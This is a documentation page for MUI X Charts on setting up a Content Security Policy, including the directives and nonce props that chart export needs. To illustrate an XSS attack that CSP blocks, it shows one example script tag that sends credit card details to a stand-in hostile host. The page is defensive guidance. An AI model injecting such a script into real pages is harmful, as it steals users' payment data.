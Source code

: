 ```yaml
---
title: Content Security Policy (CSP)
productId: x-charts
---
```


# Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a Content Security Policy.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## Setting up a CSP

MUI X Charts depends on Material UI, thus to set up a CSP, you need to follow Material UI's [CSP implementation guide](/material-ui/guides/content-security-policy/#how-does-one-implement-csp).

### CSP for exporting

MUI X Charts allow [exporting charts](/x/react-charts/export/) as images or PDFs. 
When a Content Security Policy is set, exporting requires additional configuration to function.

To enable exporting with CSP, you need to allow the use of `data:` and `blob:` URIs for images. This can be done by adding the following directives to your CSP header:

```
Content-Security-Policy: img-src 'self' data: blob:;
```

If your CSP defines a nonce for scripts or styles (e.g. `script-src 'nonce-<value>'`), you also need to provide the same nonce when exporting. 

This can be done by passing the nonce to the `printOptions` and `imageExportOptions` props of the `toolbar` slot.

```tsx
<LineChartPro
  {...settings}
  showToolbar
  slotProps={{
    toolbar: {
      printOptions: { nonce },
      imageExportOptions: [
        { type: "image/png", nonce },
        { type: "image/jpg", nonce },
        { type: "image/webp", nonce },
      ],
    },
  }}
/>
```